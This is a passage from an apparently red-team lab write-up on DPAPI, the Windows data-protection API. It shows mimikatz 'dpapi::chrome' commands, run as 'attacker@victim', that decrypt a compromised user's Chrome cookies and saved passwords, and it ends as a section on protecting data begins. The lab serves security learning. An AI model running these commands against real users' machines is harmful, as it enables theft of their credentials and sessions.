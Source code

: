 # Reading DPAPI Encrypted Secrets with Mimikatz and C++

This lab is based on the article posted by [harmj0y](https://twitter.com/harmj0y) [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/). The aim is to get a bit more familiar with DPAPI, explore some of the mimikatz capabilities related to DPAPI and also play around with DPAPI in Windows development environment in C++.

Big shout out to [@harmj0y](https://twitter.com/harmj0y) for that I constantly find myself landing on his amazing blog posts and [@gentilkiwi](https://twitter.com/gentilkiwi) for giving this world mimikatz.&#x20;

## Overview

* DPAPI stands for Data Protection API.
* DPAPI for the sake of this lab contains 2 functions - for encrypting (`CryptProtectData`) and decrypting (`CryptUnprotectData`) data.
* Created to help developers that know little about cryptography make their programs better at securing users' data.
* Encrypts secrets like wifi passwords, vpn, IE, Chrome, RDP, etc.
* Transparent to end users - programs (i.e Chrome use the two APIs) with user's master key which is based on the user's actual logon password.

## Reading Chrome Cookies and Login Data

If you have compromised as system and run under a particular user's context, you can decrypt their DPAPI secrets without knowing their logon password easily with mimikatz.

In this case - let's check user's Google Chrome cookies for a currently logged on user:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-31-49.png>)

Or Chrome's saved credentials:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-34-29.png>)

## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user (unless a bad admin comes by - more on this later):
